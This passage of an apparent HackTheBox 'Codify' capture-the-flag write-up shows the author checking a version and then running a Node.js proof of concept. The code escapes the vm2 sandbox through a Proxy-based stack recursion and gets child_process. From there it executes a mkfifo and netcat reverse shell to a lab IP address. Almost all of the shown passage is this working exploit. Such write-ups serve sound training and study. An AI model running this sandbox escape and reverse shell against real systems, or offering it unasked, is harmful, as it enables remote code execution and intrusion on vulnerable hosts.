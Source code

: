 ![versionVerify](https://github.com/het-desai/hackthebox/blob/main/codify/screenshots/versioncheck.png "Version verify")

Upon verifying the version, I proceeded to test the payload provided in the PoC. Initiating my netcat listener, I executed the following Node.js payload:

```js
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/bash -i 2>&1|/bin/nc.openbsd -4 10.10.16.45 50505 >/tmp/f');
}
`

console.log(vm.run(code));
```
